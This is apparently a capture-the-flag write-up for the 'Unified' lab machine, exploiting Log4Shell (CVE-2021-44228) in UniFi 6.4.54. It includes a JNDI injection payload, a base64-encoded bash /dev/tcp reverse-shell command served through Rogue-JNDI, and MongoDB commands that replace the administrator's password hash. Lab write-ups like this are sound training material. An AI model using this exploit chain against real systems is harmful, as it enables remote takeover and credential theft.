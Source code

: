 # Unified

## Summary

We exploit a Log4J vulnerability in UniFi 6.4.54  
We first use BurpSuite repeater with a modified payload to validate that the vulnerability exists  
We then use Rogue-JDNI to create a listening server, which allows us to get a reverse shell  
We then use the mongoDB command line tool to switch out the hash of the administrator's password with our own generated hash, allowing us to login to the website  
From there, we can find the root password for ssh

## Enumeration

nmap reveals an http-proxy is running on port 8080  
The proxy appears to redirect requests to port 8443, which seems to be running an SSL web server.  
Navigating to the web page we are presented with the UniFi web portal login page and the version number which is 6.4.54  
A quick Google search "UniFy 6.4.54" exploit reveals an article that discusses the in depth exploitation of CVE-2021-44228 vulnerability  
This is a Log4J vulnerability which can be exploited by injecting OS commands.  

## Log4J Overview

Log4J is a popular loggin library for Java created in 2001.  
It is part of the Apache Software Foundation, although all of their work is volunteer-based  
The logging library's main function is to provide devs with a way to change the format and verbosity of loggin through configuration files versus code  
Essentially, the library allows you to instead of using print statements write something like this:
```Java
logging.INFO("Application Started")
logging.WARN("File Uploaded")
logging.DEBUG("SQL Query Ran")
```
Log4J is a vulnerability which allows attacker-controlled strings to appear in logs  
Here is a detailed article about Log4J:  
https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation

## Enumerating Log4J

We use BurpSuite repeater to modify the login request and change the "remember" JSON field to the following:  
`"remember":"${jdni:ldap://10.10.15.85/whatever}"`  
We are attempting to identify an injection point if one exists.  
If the request causes the server to connect back to us, then we have verified that the application is vulnerable  

**JNDI:** Java Naming and Directory Interface API
By making calls to this API, applications locate resources and other program objects.  
A resource is a program object that provides connections to systems, such as database servers and messaging systems.  

**LDAP:** Lightweight Directory Access Protocol  
An open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internte or a Network.  
The default port which LDAP runs on is 389  

After we send our modified request with BurpSuite, the response tells us the payload is invalid, but despite the error message, the payload is actually being executed  
We can use tcpdump, to monitor the network traffic for LDAP connections  

**tcpdump** is a data-network packet analyzer that runs on a CLI.  
It allows the user to display TCP/IP and other packets being transmitted or received over a network to which the computer is attached  

We start tcpdump on port 389 with: `sudo tcpdump -i tun0 port 389`  
- `-i` flag means select interface (ie: eth0, wlan, tun0)

When we resend the modified request in repeater, we see a connection in tcpdump being received on our machine  
This proves the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389

## Exploiting Log4J

We had to install open-jdk and Maven in order to build a payload that we can send  
Open-JDK is the Java Development kit, which is used to build Java applications  
Maven is an IDE that we will use to compile our projects into jar files  

We also download the Rogue-JNDI package from github
We use maven to build the package: `mvn package`  

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system  
We will be Base-64 encoding the payload to prevent any encoding issues:  
`echo 'bash -c bash -i >&/dev/tcp/{our ip address}/4444 0>&1' | base64`  
This generates a long base64 string which we will use:  
`java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,{our base64 string} | {base64, -d} | {bash, -i}" --hostname "{our ip address}"`  

Now, we have a server listening locally on port 389  
Next we start a netcat listener to capture the reverse shell: `nc -lvp 4444`  
Now, we go back to BurpSuite, and change the payload to: `${jdni:ldap://10.10.15.85:1389/o=tomcat}`

After sending the request, a connection to our rogue server is received and the following message is shown:  
`Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload`  
We will also see a shell spawn on our netcat listener  
We can upgrade the terminal shell: `script /dev/null -c bash`

## Privlege Escalation

First, we check if MongoDB is running on the target system: `ps aux | grep mongo`  
We can see that MongoDB is running on port 27117  
A quick Google search shows that the default database name for the UniFi application is ace  
Using the mongo CLI we can attempt to extract the administrators password:  
`mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`  
The output reveals a user called Administrator. Their password hash is located in the x_shadow variable, but in this instance it cannot be cracked with any password cracking utilities  

What we will do is actually replace the x_shadow password with our own created hash  
The `6` at the start of the existing password is the algorithm indicator, indicating that SHA-512 is being used  
We can make our own sha-512 password with: `mkpasswd -m sha-512 Password1234`  

To replace the existing hash with the one we created:  
`mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"{SHA_512 hash we generated}"}})'`  
then, `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"` will allow us to verify that the hash was in fact changed  

We can now login to the UniFi web portal using administrator:Password1234  
In this web portal, we are able to locate the password for root, used for ssh